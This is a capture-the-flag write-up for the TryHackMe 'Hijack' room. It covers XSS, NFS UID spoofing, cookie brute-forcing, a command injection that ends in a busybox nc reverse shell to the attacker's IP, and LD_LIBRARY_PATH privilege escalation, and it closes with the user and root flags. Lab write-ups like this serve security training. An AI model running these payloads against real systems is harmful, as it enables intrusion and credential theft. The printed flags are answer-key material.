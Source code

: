 # Hijack
(Flags are at the end of the writeup)

### Deploy the machine and get the flags!
Initial scan finds ports 21,22,80,111,2049,35287,41763,47944,49228 open.<br />
![image](https://github.com/user-attachments/assets/07cd2b1c-3a67-4fa3-998b-3555af60dce1)<br />
After further enumeration, I found that the `username` parameter is vulnerable to XSS. To prove it, I tried using `"><script>alert(1)</script>`, and it worked:<br />
![image](https://github.com/user-attachments/assets/556f544c-3bd3-4857-a0cf-f4aa1832e42e)<br />
I then checked the nfs service, the command to mount the shared file system is `sudo mount -t nfs 10.10.246.225:/mnt/share mount -o nolock`<br />
However only user with ID=1003 can access the shared filesystem.<br />
![image](https://github.com/user-attachments/assets/d84ec36c-483b-4c3f-a340-3b988fa4d12b)<br />
So we need to create another user with ID=1003 with `sudo useradd -u 1003 hijack`. Give a password to that user with `sudo passwd nome_utente`
After logging with the new user, I found some FTP credentials:<br />
![image](https://github.com/user-attachments/assets/762f5a5e-ebee-4a1c-97f9-a2bf1db0456f)<br />
Remember to remove the user with `sudo userdel nome_utente`. So I logged in the FTP server and found some other files:<br />
![image](https://github.com/user-attachments/assets/a3237956-df3d-4696-956c-0639f520f66d)<br />
The `passwords_list.txt` file contains, guess what, a list of complex passwords. I think I need to use this list to bruteforce something. So I tried bruteforcing the login page to access the administration panel. 
If you examine the cookie, you can see it's a base64 encoded string with the following format: `user:MD5_hashed_password`. So since we know that a user called `admin` exists, and we have the password list, then we have every ingredient to bruteforce logins.
To do that, I created (thanks, Mr. GPT), a python script called `brutecookie.py` that you can find inside this folder. Remember to change the parameters according to your instance before executing the script.<br />
![image](https://github.com/user-attachments/assets/c9ab8a6d-a882-4a69-9eb2-5298f9d37f4d)<br />
Great, we can now login using this password!<br />
![image](https://github.com/user-attachments/assets/67e4bff7-e207-4bfa-889c-f51bdc05c73f)<br />
It seems like a page to check which services exists on the host. So my guess is that it executes something like `systemctl status example.service`. So I immediatly tought of command injection. `;` gets detected, then I tried `example && whoami` and it worked!<br />
![image](https://github.com/user-attachments/assets/71ccdabd-303e-4378-baf7-483db20e0282)<br />
Time to get a reverse shell. Open a nc listener and run use the following payload `& busybox nc 10.11.108.100 4444 -e sh`.<br />
I immediately found credentials inside `confing.php`:<br />
![image](https://github.com/user-attachments/assets/de2653f1-c3f3-4de4-9502-3117292f4123)<br />
They look like mysql credentials, and I think they are, but I used them to access rick's account through ssh and get the first flag. <br />
Running `sudo -l` we get the following:<br />
![image](https://github.com/user-attachments/assets/a55d25fe-2c56-4435-8deb-e636213e3087)<br />
We can execute a binary called `apache2` and have also access to the LD_LIBRARY_PATH. LD_LIBRARY_PATH allows us to specify where the program should go look for shared libraries/objects first. So the idea is to take the name of any of the libraries used by the `apache2` binary, and create a malicious script with that exact name inside a folder that we have access to. <br /> Run `ldd /usr/sbin/apache2` to see the shared object used by the binary.
I'm gonna take `libdl.so.2`. So, first of all, create the malicious .c file; you can find it inside this folder, called `exploit.c`. Then, compile it using the following command: `gcc -o /tmp/libdl.so.2 -shared -fPIC exploit.c`. Then, run the binary after setting the evnvironment variable, with the following command: `sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2`:<br />
![image](https://github.com/user-attachments/assets/b32556c3-a386-4c53-92b7-c6a704b5e511)<br />



- What is the user flag? `THM{fdc8cd4cff2c19e0d1022e78481ddf36}`
- What is the root flag? `THM{b91ea3e8285157eaf173d88d0a73ed5a}`
